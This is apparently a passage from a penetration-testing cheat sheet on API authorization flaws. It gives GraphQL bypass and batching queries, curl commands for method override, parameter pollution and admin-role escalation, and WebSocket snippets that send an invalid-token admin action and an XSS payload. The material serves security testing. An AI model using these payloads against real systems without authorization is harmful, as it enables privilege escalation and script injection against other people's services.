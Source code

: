#### **GraphQL Authorization Bypass**:
```graphql
# Introspection bypass
{
  __schema @skip(if: false) {
    types {
      name
    }
  }
}

# Field-level authorization bypass
{
  user(id: "1") {
    publicField
    adminOnlyField @include(if: true)
  }
}

# Batching to bypass rate limits
[
  {"query": "{ user(id: 1) { name } }"},
  {"query": "{ user(id: 2) { name } }"},
  {"query": "{ user(id: 3) { name } }"}
]
```

### **🆕 REST API Security Testing**

#### **API Access Control Flaws**:
```bash
# HTTP method override
curl -X GET -H "X-HTTP-Method-Override: DELETE" /api/users/123

# Parameter pollution
curl "/api/user?id=1&id=2" # May return data for id=2
curl "/api/user?role=user&role=admin" # May escalate privileges

# Content-Type manipulation
curl -X POST -H "Content-Type: application/xml" -d '<user><role>admin</role></user>' /api/users
curl -X POST -H "Content-Type: text/plain" -d '{"role": "admin"}' /api/users

# API version bypass
curl /api/v1/admin/users  # May have different access controls than v2
curl /api/internal/users  # May bypass external API restrictions
```

### **🆕 WebSocket Security**:
```javascript
// WebSocket authorization bypass
const ws = new WebSocket('wss://api.example.com/admin');
ws.onopen = function() {
    // Test if authentication is properly validated
    ws.send(JSON.stringify({
        action: 'admin_action',
        token: 'invalid_token'
    }));
};

// WebSocket message injection
ws.send(JSON.stringify({
    action: 'user_message',
    content: '<script>alert("XSS")</script>'
}));
```